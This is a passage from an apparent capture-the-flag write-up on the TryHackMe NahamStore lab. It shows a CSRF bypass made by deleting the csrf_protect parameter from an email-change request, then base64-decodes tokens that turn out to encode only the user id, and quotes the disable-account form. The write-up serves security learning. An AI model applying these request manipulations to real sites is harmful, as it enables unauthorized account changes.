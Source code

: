 **To bypass the CSRF protection, we can just simply remove the `csrf_protect` POST parameter:**

**Before:**
```
POST /account/settings/email HTTP/1.1
[...]
csrf_protect=eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZek56TTROVEUxSW4wPSIsInNpZ25hdHVyZSI6ImZmYmQxOTk0NzNkODUzMjg2MTRlNWQ0Mzg4MWYyZmU4In0%3D&change_email=test%40gmail.com
```

**After:**
```
POST /account/settings/email HTTP/1.1
[...]
change_email=test%40gmail.com
```

3. What simple encoding is used to try and CSRF protect a form

**In the above `csrf_protect` POST parameter, we can see that the `value` is being encoded in `base64`:**
```
eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZek56TTROVEUxSW4wPSIsInNpZ25hdHVyZSI6ImZmYmQxOTk0NzNkODUzMjg2MTRlNWQ0Mzg4MWYyZmU4In0=
```

**We can decode that via `base64 -d`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# echo "eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZek56TTROVEUxSW4wPSIsInNpZ25hdHVyZSI6ImZmYmQxOTk0NzNkODUzMjg2MTRlNWQ0Mzg4MWYyZmU4In0=" | base64 -d
{"data":"eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjYzNzM4NTE1In0=","signature":"ffbd199473d85328614e5d43881f2fe8"}

┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# echo "eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjYzNzM4NTE1In0=" | base64 -d
{"user_id":4,"timestamp":"1663738515"}
```

**We can also see that the `Disable Account` page is using `base64` to encode CSRF token instead of random string.**
```html
<form method="post">
    <input type="hidden" name="action" value="disable">
    <input type="hidden" name="csrf_disable_protect" value="NA==">
    <p></p>
    <div style="margin-top:7px">
    <p>Please only click the below button if you are 100% sure you wish to disable your account. All your data will be lost.</p>
	<input type="submit" class="btn btn-danger pull-right" value="Disable Account"></div>
</form>
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# echo "NA==" | base64 -d                                                
4
```
